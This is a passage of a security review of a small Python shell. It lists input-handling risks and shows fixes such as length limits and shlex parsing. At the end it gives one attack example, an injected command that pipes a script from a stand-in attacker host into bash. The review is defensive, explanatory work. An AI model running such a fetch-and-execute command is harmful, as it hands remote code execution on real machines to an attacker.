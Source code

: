 **Risk**: 
- **Buffer Overflow**: Extremely long commands could cause issues
- **Quote Handling**: Commands with quotes parsed incorrectly
- **Special Characters**: No handling of shell metacharacters

#### Security Fix Applied:
```python
# SECURE: Input validation and proper parsing
if len(raw) > 1000:  # Prevent extremely long commands
    print("Command too long")
    continue

tokens = shlex.split(raw)  # Proper quote and escape handling
```

## Security Improvements Added

### 1. **Comprehensive Input Sanitization**
- Command names restricted to safe characters only
- Path validation prevents directory traversal
- Environment variable names sanitized
- Input length limits enforced

### 2. **Safe Command Execution**
- Removed `shell=True` to prevent command injection
- Individual argument validation
- Sandboxed execution environment

### 3. **Robust Error Handling**
- Graceful handling of malformed input
- Detailed error messages without information leakage
- Exception catching prevents crashes

### 4. **Variable Expansion Security**
- Safe environment variable expansion
- Protection against command substitution
- Validation of variable names before expansion

### 5. **File Operation Protection**
- Restricted file redirection targets
- Prevention of system file modification
- Path canonicalization and validation

## Attack Scenarios Prevented

### Original Code Attack Examples:

1. **System Compromise**:
   ```bash
   mysh> ls; curl attacker.com/payload.sh | bash
   # Executes ls, then downloads and runs malicious script
   ```
